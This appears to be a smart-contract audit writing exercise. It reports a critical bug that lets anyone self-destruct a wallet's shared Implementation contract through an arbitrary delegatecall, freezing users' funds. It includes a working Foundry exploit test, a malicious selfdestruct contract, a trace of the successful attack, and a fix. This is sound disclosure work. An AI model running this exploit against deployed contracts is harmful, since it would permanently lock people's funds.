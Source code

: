 # Spearbit Writing Exercise

## Wallet Protocol Business Requirments

You are given an implementation for a smart contract wallet. There are two contracts

1. [`Implementation.sol`](contracts/Implementation.sol): Deployed once and used as implementation contract in `Proxy.sol`.
2. [`Proxy.sol`](contracts/Proxy.sol): Each user has a unique `Proxy` deployment with the above implementation. This is a simply proxy contract which delegatecalls the implementation contract. It has an access control check that allows only the owner to use the fallback function.

The idea is that users can keep their funds, for example, ETH or ERC20 tokens in the Proxy. To use these funds, users can execute arbitrary calls and arbitrary delegatecalls by using the implementation contract (it has `callContract` and `delegatecallContract`). The implementation contract is deployed only once and reused to save gas.

## Implementation deletion causes DoS of users proxy contracts

**Severity:** Critical

**Impact:** 
An attacker could delete the `Implementation` contract deployed for user proxy contracts. All users funds deposited to their `Proxy` contracts could be stuck forever without any option to withdraw.

**Context:** [Implementation.sol#L9-L22](https://github.com/shabarkin/writing-exercise/blob/develop/src/Implementation.sol#L9-L22)

While reviewing the `Proxy` and `Implementation` smart contracts I have observed that `Implementation` contract is defined as a normal deployable smart contract, this allows an attacker to cause the denial of service (DoS) attack for all users of `Proxy` contract.
By application business requirment users should have ability to execute arbitrary `call` and arbitrary `delegatecall` functions by using their `Implementation` contract, however the current architecture implementation has a side affect.

The `delegatecall` function preserves the state of the calling smart contract, but executes logic of the called smart contract/library. In this architecture the `Implementation` smart contract is deployed as independent smart contract, what means that anyone within the Ethereum network could invoke their functions. 

By deploying the malicious smart contract with a function, which defines `selfdestruct` operation, allows an attacker to "selfdelete" the `Implementation` contract. This may happen, because `Implementation.delegatecallContract` function uses `delegatecall` operation on the arbitrary address and arbitrary calldata. It will execute the logic of malicious function within the state of the `Implementation` contract, what means that the `selfdectruct` operation will be executed within the state of `Implementation` contract. 

The DoS attack could be achieved, because there is no way to update the address of `Implementation` of `Proxy` contract or to withdraw user funds. Upon deletion of `Implementation` contract, all users funds holded within `Proxy` contracts will be stuck there forever.

The development and test running were completed with [Foundry](https://book.getfoundry.sh/) framework.


Example of code snippet for the main exploitation business logic: 
```solidity
// Proxy and Implementation contracts deployment
impl = new Implementation();
proxy = new Proxy(address(impl), deployer);

// send funds to deployer account
(bool success,) = deployer.call{value: 1000 ether}("");
if (!success){
    revert("funds are not deposited");
}

// Exploit contract deployment
vm.startPrank(attacker);
exploit = new Exploit();
vm.stopPrank();

// critical: The implementation deletion
vm.startPrank(attacker);

// pack calldata for Exploit contract
bytes memory _calldataExploit = abi.encodeWithSelector(exploit.destroy.selector, attacker);
// delete implementation contract through delegate call on the `selfdestruct`
impl.delegatecallContract(address(exploit), _calldataExploit);

vm.stopPrank();
 ```
 
Example of the check to determine existance of a contract:
 ```solidity
 function _checkContractExistance(address _contract) private view returns (bool){
    uint256 size;
    assembly {
        size := extcodesize(_contract)
    }
    return size != 0;
}
 ```

Example of the malicious smart contract:
```solidity
contract Exploit {
    address immutable public owner = address(0x02);
    address public implementation;

    function destroy(address _to) public {
        selfdestruct(payable(_to));
    }
}
```

Download:
```
git clone https://github.com/shabarkin/writing-exercise.git
```

Execute the exploit test with Foundry:

```bash
forge test -vvvvv
```

Console output:
```log
Running 1 test for test/Proxy.t.sol:SpearbitImplementationDestructTest
[PASS] testImplementationDestruct() (gas: 8337)
Logs:
  Implementation contract exists: false

Traces:
  [490544] SpearbitImplementationDestructTest::setUp() 
    ├─ [123771] → new Implementation@0xCe71065D4017F316EC606Fe4422e11eB2c47c246
    │   └─ ← 618 bytes of code
    ├─ [96860] → new Proxy@0x185a4dc360CE69bDCceE33b3784B0282f7961aea
    │   └─ ← 371 bytes of code
    ├─ [3000] PRECOMPILE::ecrecover{value: 1000000000000000000000}() 
    │   └─ ← 
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000002) 
    │   └─ ← ()
    ├─ [55532] → new Exploit@0xE536720791A7DaDBeBdBCD8c8546fb0791a11901
    │   └─ ← 277 bytes of code
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000002) 
    │   └─ ← ()
    ├─ [6233] Implementation::delegatecallContract(Exploit: [0xE536720791A7DaDBeBdBCD8c8546fb0791a11901], 0x00f55d9d0000000000000000000000000000000000000000000000000000000000000002) 
    │   ├─ [5257] Exploit::destroy(0x0000000000000000000000000000000000000002) [delegatecall]
    │   │   └─ ← ()
    │   └─ ← 0x
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    └─ ← ()

  [8337] SpearbitImplementationDestructTest::testImplementationDestruct() 
    ├─ [0] console::log(Implementation contract exists: %s, false) [staticcall]
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 417.42µs
```


**Recommendation:**
Change the context of `Implementation` smart contract from `contract` to `library`. Update their functions by removing the `payable` 
modifier.

```diff
- contract Implementation {
+ library Implementation {

-   function callContract(address a, bytes calldata _calldata) payable external returns (bytes memory) {
+   function callContract(address a, bytes calldata _calldata) external returns (bytes memory) {
        (bool success , bytes memory ret) =  a.call{value: msg.value}(_calldata);
        require(success);
        return ret;
    }

-   function delegatecallContract(address a, bytes calldata _calldata) payable external returns (bytes memory) {
+   function delegatecallContract(address a, bytes calldata _calldata) external returns (bytes memory) {
        (bool success, bytes memory ret) =  a.delegatecall(_calldata);
        require(success);
        return ret;
    }
}
```

**Fix commit:** [87379dc](https://github.com/shabarkin/writing-exercise/commit/87379dc56ce658334e1dd367020aed16e6cdf0d5)
